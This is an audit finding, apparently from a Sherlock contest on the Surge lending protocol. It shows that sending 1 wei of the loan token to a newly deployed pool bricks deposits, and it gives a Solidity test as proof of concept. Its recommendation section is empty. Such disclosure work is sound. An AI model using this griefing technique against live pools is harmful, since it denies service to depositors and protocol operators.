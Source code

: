 usmannk

medium

# Initialized pools can be disabled by attackers

## Summary

Attackers can disable pools by sending 1 wei of LOAN_TOKEN to them on initialization.

## Vulnerability Detail

When a pool is deployed, the tokenToShares function enters a special case to allow an initial deposit while there are zero outstanding shares.

However, after a pool is deployed but before any funds have been deposited, an attacker can gift/transfer 1wei of the LOAN_TOKEN to the pool. This causes the total supply of shares to be 0 while the loanTokenBalance is 1. The tokenToShares does not enter its special case because there is an outstanding loan token balance. The deposit function then reverts and the pool becomes useless. 

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L325

The following test exemplifies this:

```solidity
 function testDepositSuccess() external {
        uint amount = 1e36;
        MockERC20 collateralToken = new MockERC20(0, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);

        // transfer 1 token directly to the pool, bypassing deposit logic
        loanToken.transfer(address(pool), 1);

        loanToken.approve(address(pool), amount);
        // pool is bricked, deposits cannot be made
        pool.deposit(amount/2);
}
```

This code should not revert, but does.

## Impact

DoS on pools, rendering them useless.

## Code Snippet

## Tool used

Manual Review

## Recommendation
